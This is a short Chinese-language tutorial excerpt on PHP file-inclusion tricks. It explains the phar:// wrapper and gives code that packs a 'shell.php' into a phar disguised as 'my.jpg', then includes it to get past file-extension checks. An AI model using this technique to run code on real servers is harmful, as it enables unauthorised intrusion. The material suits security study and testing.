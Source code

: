 ![avatar](../images/php_input.png)
![avatar](../images/php_input_shell.png)

## **phar://协议**

文件归档到一个文件包，将一个模块的文件打包成一个phar，这样方便模块整体迁移，只需将phar文件移动过去，其他环境中include即可使用。类似于java的 .jar 文件。<br>
php 5.3时，为php的C语言扩展，安装php时会默认安装。
特点就是能将任意后缀名的压缩包解包，得到里面指定的内容，这个方法在绕过后缀名限定的包含中非常好用。
```php
class TestObject {
}
$phar = new Phar("my.jpg");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new TestObject;
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("shell.php", "<?php phpinfo(); ?>"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```
```php
callphar.php
<?php
    include 'phar://my.jpg/shell.php';
?>
```